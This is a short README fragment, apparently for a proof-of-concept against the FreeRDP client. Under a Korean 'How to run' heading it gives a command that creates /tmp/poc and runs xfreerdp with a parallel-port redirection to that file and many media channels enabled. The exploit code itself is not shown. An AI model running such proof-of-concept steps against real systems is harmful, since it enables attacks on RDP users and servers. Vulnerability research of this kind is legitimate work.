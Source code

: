 

## 실행 방법

```touch /tmp/poc
xfreerdp /u:<Username> /p:<Password> /v:<Server Address> /parallel:test,/tmp/poc /rfx /gfx /multimedia:decoder:ffmpeg /audio-mode:0 /echo /dynamic-resolution /video
```



